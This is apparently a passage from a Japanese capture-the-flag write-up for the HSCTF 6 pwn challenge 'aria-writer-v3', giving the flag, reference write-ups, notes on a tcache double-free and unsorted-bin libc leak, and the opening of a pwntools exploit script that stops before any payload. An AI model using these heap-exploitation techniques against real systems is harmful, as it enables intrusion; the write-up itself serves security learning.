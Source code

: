 `hsctf{i_wish_tho_:(_0a0d098213}`

## 参考Writeup

* [ptr-yudaiさんのwriteup](https://bitbucket.org/ptr-yudai/writeups/src/master/2019/HSCTF_6/aria_writer_v3/): いつも本当にありがとうございます
* [jt00000さんのwriteup](https://github.com/jt00000/ctf.writeup/tree/abe6b0713aaa8e82b78575319b89018c00fc6ecb/hsctf6/pwn_ariav3): tcacheを余らせておけば`main_arena->top`を指したままリークできる、凄い

## Special Thanks

* 弊チームのPwn担当: 質問攻めにしてごめん

## 感想

Unsorted Bin Attackなんもわからんという感じなのと、納得は出来たが人のWriteup写経になりつつあるのでBinの知識をしっかり付ける必要があることを実感した。glibc mallocのソースコードを読めば良いのか...?

## 追記

あの後、参考Writeupの2つ目同様に事前にDouble Freeで循環させたtcacheを用意してそこからmallocし、Unsorted Binからmallocするのを防ぐ解法で解いた。
これなら偽装チャンクは再度mallocされず、`fd`が破壊されない上に`&main_arena->top`を指したままである

実は最初はこれをやろうとしていたのだが、前述したようにlibc leakの過程でUnsorted Binからmallocしてしまう問題によってオフセットがいつもの`main_arena@libc + 0x60`では無いことに頭を抱えていた。
値のダンプによって0x490が正しいオフセットであることはわかっていたものの原因究明に半日費やして良い勉強になりました

```python
from pwn import process, remote, p64, u64, ELF


def _select(s, sel, c=b"Gimme int pls > "):
    s.recvuntil(c)
    s.sendline(sel)


def get_name(s):
    junk = b"! rob needs your help composing an aria "
    r = s.recvuntil(junk)
    return r[:-len(junk)]


def write(s, l, data=b"junk"):
    _select(s, b"1")
    s.recvuntil(b"Gimme int pls > ")
    s.sendline(str(l).encode())
    s.recvuntil(b"what should i write tho > ")
    s.send(data)


def delete(s):
    _select(s, b"2")
    s.recvline()


if __name__ == '__main__':
    target = "localhost"
    port = 2468
    # s = process("./aria-writer-v3")
    s = remote(target, port)

    elf = ELF("./aria-writer-v3")
    win = elf.symbols["win"]
    curr = elf.symbols["curr"]
```